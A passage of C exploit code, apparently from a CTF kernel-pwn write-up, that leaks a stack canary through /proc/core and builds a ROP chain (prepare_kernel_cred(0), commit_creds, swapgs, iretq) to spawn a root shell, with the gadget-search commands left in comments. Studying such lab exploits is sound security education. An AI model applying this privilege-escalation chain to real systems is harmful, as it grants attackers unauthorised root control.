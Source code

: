 ```c
}

int main(){
    save_status();
    int fd = open("/proc/core", 2);
    if(fd < 0){
        puts("[-] open /proc/core failed.");
        exit(0);
    }
    find_symbols();

    set_off(fd, 0x40);
    char buf[0x40] = {0};
    core_read(fd, buf);
    size_t canary = ((size_t *)buf)[0];
    printf("[+] canary => %p\n", canary);
    // int i;
    // for(i = 0; i < 10; i++)
    //     rop[i] = canary;
    // offset = vmlinux_base - raw_vmlinux_base;
    // ropchain(i, offset);
    size_t rop[0x1000] = {0};
    ssize_t offset = vmlinux_base - raw_vmlinux_base;
    int i;
    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }
    size_t pop_rdi_ret = 0xffffffff81000b2f;
    size_t pop_rdx_ret = 0xffffffff810a0f49;
    size_t pop_rcx_ret = 0xffffffff81021e53;
    size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a;
    size_t swapgs_popfq_ret = 0xffffffff81a012da;
    size_t iretq_ret = 0xffffffff81050ac2;
    /*
        cat g1 | grep -e "pop rdi; ret;"
        cat g1 | grep -e "pop rdx; ret;"
        cat g1 | grep -e "pop rcx; ret;"
        cat g1 | grep -e "mov rdi, rax; call rdx;"
        cat g1 | grep -e "swapgs; popfq; ret;"
        cat g1 | grep -e "iretq; ret;"
    */
    // prepare_kernel_cred(0)
    rop[i++] = pop_rdi_ret + offset;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;

    // commit_creds
    rop[i++] = pop_rdx_ret + offset;
    rop[i++] = pop_rcx_ret + offset;
    rop[i++] = mov_rdi_rax_call_rdx + offset;
    rop[i++] = commit_creds;

    // swapgs -> change mode
    rop[i++] = swapgs_popfq_ret + offset;
    rop[i++] = 0;
    rop[i++] = iretq_ret + offset;
    
    // command
    rop[i++] = (size_t)spawn_shell;

    // stack frame
    rop[i++] = user_cs;
```

[vmlinux & bzImage 的关系]: https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml	"vmlinux &amp; bzImage 的关系"
[ extract-vmlinux ]: https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux "extract-vmlinux"